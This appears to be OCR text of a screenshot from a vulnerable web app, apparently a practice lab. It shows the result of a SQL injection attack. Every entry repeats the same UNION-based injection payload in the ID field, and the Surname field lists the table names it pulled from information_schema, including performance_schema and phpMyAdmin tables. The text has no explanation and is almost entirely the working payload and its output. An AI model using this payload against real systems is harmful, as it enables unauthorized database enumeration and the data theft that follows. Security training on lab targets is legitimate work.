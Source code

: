First name: 
Surname: events_statements_history
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_history_long
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_summary_by_thread_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_summary_by_account_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_summary_by_user_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_summary_by_host_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_summary_global_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_summary_by_digest
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: accounts
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: hosts
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: socket_instances
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: socket_summary_by_instance
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: socket_summary_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: session_connect_attrs
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: session_account_connect_attrs
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__bookmark
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__central_columns
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__column_info
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__designer_settings
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__export_templates
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: pma__favorite
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 